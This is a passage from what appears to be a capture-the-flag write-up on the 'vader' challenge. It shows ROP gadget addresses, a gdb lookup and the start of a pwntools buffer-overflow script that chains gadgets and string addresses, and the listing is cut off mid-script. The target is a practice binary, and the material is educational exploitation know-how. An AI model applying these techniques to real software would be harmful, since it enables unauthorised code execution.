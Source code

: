 Check it out -- at the bottom of the code block (`0x40165b`) there's a perfect gadget for us to use! Let's find ones for the rest of them:

{% ccb terminal:true html:true %}
<span style="color:#D41919">0x0000000000401659</span>: <span style="color:#FF8A18"><b>pop</b></span> <span style="color:#EC0101"><b>rsi</b></span><span style="color:#277FFF"><b>; </b></span><span style="color:#FF8A18"><b>pop</b></span> <span style="color:#E6E6E6">r15</span><span style="color:#277FFF"><b>; </b></span><span style="color:#FF8A18"><b>ret</b></span><span style="color:#277FFF"><b>; </b></span><br><span class="line"><span style="color:#D41919">0x00000000004011ce</span>: <span style="color:#FF8A18"><b>pop</b></span> <span style="color:#EC0101"><b>rdx</b></span><span style="color:#277FFF"><b>; </b></span><span style="color:#FF8A18"><b>ret</b></span><span style="color:#277FFF"><b>; </b></span></span><br><span class="line"><span style="color:#D41919">0x00000000004011d8</span>: <span style="color:#FF8A18"><b>pop</b></span> <span style="color:#EC0101"><b>rcx</b></span><span style="color:#277FFF"><b>; </b></span><span style="color:#FF8A18"><b>pop</b></span> <span style="color:#E6E6E6">r8</span><span style="color:#277FFF"><b>; </b></span><span style="color:#FF8A18"><b>ret</b></span><span style="color:#277FFF"><b>; </b></span></span>
{% endccb %}

The first `pop rsi; pop r15;` isn't ideal, as it's popping a redundant register -- we'll need to repopulate it with 8 bytes of garbage. On the other hand, the `pop rcx; pop r8;` takes care of two registers at once!

With that, we can draw up a visual of what our final payload will look like:

![Payload Visual](/asset/shctf/payload-visual.svg)

The last thing we need to do is to find the hex addresses of our argument strings:

![Ghidra Strings](/asset/shctf/strings.png)

Don't forget the address of `vader()` too!:

{% ccb terminal:true html:true caption:'gdb-gef x command' url:'visualgdb.com/gdbreference/commands/x' url_text:documentation %}
<span style="color:#EC0101"><b>gef➤  </b></span>x vader
<span style="color:#367BF0">0x40146b</span> &lt;<span style="color:#FEA44C">vader</span>&gt;:	0xe5894855
{% endccb %}

Here is my final script, which defines a variable for each section of our gigantic payload -- this is for enhanced readability. I've also used the `p64()` function, which converts the address into little endian:

{% ccb lang:py gutter1:1-29 caption:vader.py url:gist.github.com/jktrn/a499cfd248125a9d57924f8f602fda30 url_text:'github gist link' %}
from pwn import *

offset =        b'A'*40         # OVERFLOWING 32 + 8 BYTES FOR $RBP

rdi =           p64(0x0040165b) # RDI, RSI, RDX, RCX, & R8 ARE ARGS REGISTERS
rsi_r15 =       p64(0x00401659)
rdx =           p64(0x004011ce)
rcx_r8 =        p64(0x004011d8)

dark =          p64(0x00402ec9) # ADDRESSES FOR STRINGS IN THE BINARY
side =          p64(0x00402ece)
r15_garbage =   p64(0xCAFEBEEF) # GARBAGE
of =            p64(0x00402ed3)
the =           p64(0x00402ed6)
force =         p64(0x00402eda)
